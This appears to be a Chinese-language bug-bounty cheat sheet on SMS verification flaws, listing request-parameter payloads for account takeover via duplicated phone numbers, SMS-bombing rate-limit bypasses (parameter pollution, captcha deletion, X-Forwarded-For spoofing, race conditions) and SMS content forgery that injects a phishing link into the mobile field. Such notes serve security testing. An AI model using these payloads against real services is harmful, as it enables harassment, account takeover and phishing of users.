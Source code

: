 - 未限制短信发送次数.


> 高并发建议使用测试号挂代理池
>
> 一分钟内可以发送 10 条以上信息即可尝试提交

## 1. 任意用户

- 手机号双写 (可能获取相同的验证码, 或两个不同的验证码未与手机号做绑定)

  ```
  mobile=13888888888,13899999999
  mobile=13888888888&mobile=13899999999
  ```

## 2. 短信轰炸

1. 横向轰炸

   ```
   可在 Intruder 中向多个不同的手机号发送短信，一般只有众测会收
   ```

2. 纵向轰炸

   ```
   可向一个手机号发送多条短信 (尽量将收到的短信全部截图)
   ```

### 2.1 Bypass

- 参数污染

  ```
  使用 Intruder 在手机号位置添加: 空格,Tab,逗号,0,00,86,086,0086,+86,/n,/r,/n/r,/r/n,%00,x,+)WAFXR#!T 等特殊字符
  ```

- 验证码参数

  ```
  删除验证码参数
  删除或修改删除验证码参数的值 -1,0,1,2,true,True,admin,Admin
  ```

- Cookie

  ```
  删除或修改 Cookie 的部分值
  ```

- 修改返回值

  ```
  修改返回值为 0,1,true,success (状态码：200)
  ```

- 双写

  ```
  mobile=13888888888,138888888888
  mobile=13888888888&mobile=138888888888
  ```

- 伪造为内网 IP

  ```
  添加 X-Forwarded-For:127.0.0.1 或用 burpfakeip 伪造
  ```

- URL 编码

  ```
  一次的 URL 编码和两次的 URL 编码都尝试一下
  ```

- 并发 30 次

  ```
  Burp 拦截后多次点击获取验证码
  在 Burp Repeater 中修改发送方式
  	Send group in sequence (separate connections)
  	Send group in parallel (last-byte sync)
  使用 Turbo Intruder 中的的 examples/race.py
  ```

---

参考链接

- [短信轰炸漏洞绕过的多种方法技巧](https://www.cnblogs.com/backlion/p/17294082.html)
- [记某次SRC短信轰炸漏洞挖掘](https://www.freebuf.com/articles/mobile/385471.html)
- [短信轰炸漏洞](https://www.bilibili.com/video/BV1TS411P7QF/?spm_id_from=333.337.search-card.all.click&vd_source=2dcc7806c9580af60063ca1edb63852d)

## 3. 短信伪造

当我们在测试任意用户时，往往会利用修改接收手机号，使多个手机号收到同一组验证码

例如拦截发送验证码的请求包

```
mobile:13888888888
```

修改为

```
mobile:13888888888,13899999999
```

这时两个手机号会收到相同的验证码，那么就造成了任意用户漏洞

但是在某些情况下，会只有一个手机号接收到了验证码，验证码为

```
66666,13899999999
```

这就造成了短信伪造漏洞，可以任意修改验证码短信内容，那么我们只需要修改请求包为

```
mobile:13888888888,请点击 https://www.example.com 进行验证
```

用户即可接收到一个含有恶意链接的短信

```
66666,请点击 https://www.example.com 进行验证
```

此漏洞可造成用户的财产损失，传播非法网站等危害

---

Refrences

- [教育厅被入侵？发送恶意短信的黑客攻击是怎么实现的？短信伪造漏洞案例讲解！！](https://mp.weixin.qq.com/s/6tvK1tyREzRtgZ2efu1qGA)


- [【src漏洞挖掘】教育厅被入侵？发送恶意短信的黑客攻击是怎么实现的？短信伪造漏洞案例讲解！！](https://www.bilibili.com/video/BV1dJ28YeEwU/?spm_id_from=333.1007.tianma.2-3-6.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
